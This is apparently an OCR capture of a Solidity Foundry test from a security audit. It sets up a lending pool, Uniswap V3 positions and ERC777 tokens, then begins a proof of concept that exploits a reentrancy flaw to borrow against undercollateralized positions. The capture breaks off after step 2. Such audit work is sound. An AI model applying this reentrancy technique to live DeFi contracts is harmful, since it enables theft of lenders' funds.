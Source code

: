             deployUniswapV3AM(address(nonfungiblePositionManager));
    
            vm.startPrank(users.riskManager);
            registryExtension.setRiskParametersOfDerivedAM(
                address(pool), address(uniV3AssetModule), type(uint112).max, 100
            );
     
            token0 = mockERC20.token1;
            token1 = mockERC20.token2;
            (token0, token1) = token0 < token1 ? (token0, token1) : (token1, token0);
    
            // Deploy account owner
            accountOwnerContract = new AccountOwner(address(nonfungiblePositionManager));
    
            
            // Set origination fee
            vm.startPrank(users.creatorAddress);
            pool.setOriginationFee(100); // 1%
    
            // Transfer ownership to Account Owner 
            vm.startPrank(users.accountOwner);
            factory.safeTransferFrom(users.accountOwner, address(accountOwnerContract), address(proxyAccount));
            vm.stopPrank();
            
    
            // Mint uniswap position underlying tokens to accountOwnerContract
            mockERC20.token1.mint(address(accountOwnerContract), 100 ether);
            mockERC20.token2.mint(address(accountOwnerContract), 100 ether);
    
            // Open Uniswap position 
            tokenId = _openUniswapPosition();
     
    
            // Transfer some ERC777 tokens to accountOwnerContract. These will be used to be deposited as collateral into the account
             vm.startPrank(users.liquidityProvider);
             mockERC20.token777.transfer(address(accountOwnerContract), 1 ether);
        }
    
        /////////////////////////////////////////////////////////////////
        //                           POC                               //
        /////////////////////////////////////////////////////////////////
        /// @notice Test exploiting the reentrancy vulnerability. 
        function testVuln_borrowUsingUndercollateralizedUniswapPosition(
            uint128 amountLoaned,
            uint112 collateralValue,
            uint128 liquidity,
            uint8 originationFee
        ) public {   
    
            //----------            STEP 1            ----------//
            // Open margin account setting pool as new creditor
            vm.startPrank(address(accountOwnerContract));
            proxyAccount.openMarginAccount(address(pool)); 
            
            //----------            STEP 2            ----------//
            // Deposit assets into account. The order of the assets to be deposited is important. The first asset will be an ERC777 token that triggers the callback on transferring.
            // The second asset will be the uniswap position.
    